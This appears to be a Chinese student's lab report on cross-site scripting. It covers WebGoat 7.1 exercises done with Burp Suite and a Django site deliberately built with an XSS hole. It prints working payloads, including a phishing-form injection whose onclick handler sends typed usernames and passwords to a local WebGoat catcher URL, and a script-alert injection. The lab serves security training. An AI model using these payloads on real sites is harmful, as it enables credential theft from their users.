# xxs-web
## 实验要求
- [x] 找一个具有xss漏洞的网页理解xss漏洞的原理。
- [x] 自己写一个具有xss漏洞的网页（推荐django）,包括登录页面和评论页面（每个用户都可以看到其他用户的评论内容、用户id、评论时间）
- [x] 写一个自动化脚本，自动提交表单登录网站，进入论坛页面，并爬取论坛中的信息
## 实验步骤
### xss漏洞
#### 实验环境
kali虚拟机上使用webgoat(即：不是开发者版本)

firefox设置了代理并使用burp suite拦截流量。

实验使用webgoat7.1,完成了第九章Cross-Site Scripting(XSS)的学习和练习
#### webgoat7.1-xss漏洞实验步骤
[webgoat攻略](https://www.cnblogs.com/yangmzh3/p/7542018.html)
##### 1. Phishing with XSS
目标：通过XSS添加一个表单让受害者输入用户名和密码，达到钓鱼的结果。
输入代码，搜索任意字符串尝试：```</form><form name="phish"><br/><br/><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br/><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br></form><br><br><HR> ```

burp suite拦截结果如下：

根据题目要求搜索目标字符串，输入：```<form><br/><br/><HR><H3>This feature requires account login:</H3><br/><br/>Enter Username:<br/><input type="text" id="user" name="user"><br/>Enter Password:<br/><input type="password" name = "pass" id="pass"><br/><input type="submit" name="login" value="login" οnclick="var user=document.getElementById('user');var pass=document.getElementById('pass');alert('Had this been a real attack... Your credentials were just stolen. User Name = ' + user.value + 'Password = ' + pass.value);var XSSImage=new Image; XSSImage.src='http://127.0.0.1:8087/WebGoat/catcher?PROPERTY=yes&user='+ user.value + '&password=' + pass.value + '';"><br/><br/><HR></form>```,得到新的结果如下图，过关：

##### 2. LAB：Cross Site Scripting
###### 2.1 Stage 1:Stored XSS
目标：更改tom用户的信息（注入代码）,当Jerry用户访问的时候弹出弹窗。  
选择任意一个输入框，输入注入代码：```<script>alert('XSS')</script>```

保存，登录'Jerry',访问Tom的资料，看到弹出框
###### 2.2 Stage 2:Block Stored XSS using Input Validation
目标：输入验证（采用过滤技术）阻止存储式xss攻击  
由于需要开发者版本，放弃

###### 2.3 Stage3:Stored XSS Revisited
目标：使用另外两个用户('Bruce' 和 'David')访问，重复2.1的操作。正常情况由于有了2.2的操作，就不会再有弹窗，由于不是开发者版本，因此还会有弹窗。由于实验重复，没有复现的必要，进行下一步。
###### 2.4 Stage4:Block Stored XSS using Output Encoding
目标：输入验证（采用编码技术）阻止存储式xss攻击

###### 2.5 Stage5:Reflected XSS
目标：方式和2.1一样，不同的是，2.1是更改存储的数据，当访问的时候弹出窗口，影响别人。这里是使用任意用户（比如Larry）登陆后，'searchfile'中注入代码，影响自己。

得到效果，看到下方显示通过。


###### 2.6 Stage6:Block Reflected XSS
目标：仿照2.2开发防止反射式xss  
需要开发者版本，放弃。

##### 3. Stored XSS Attacks
如下图输入注入代码

得到结果

##### 4. Reflected XSS Attacks 
如下图利用漏洞

得到结果，并可以看到通关信息

## xss-web网页搭建
>xssweb文件夹中，实现了网页搭建的模板，没有实现连接数据库
后端数据库：
  xssusers
  xsscomments  
--templates：各种页面的模板  
login.html登陆页面
comments.html评论页面
register.html注册页面  
--forms.py.  
--models.py
## 自动化脚本
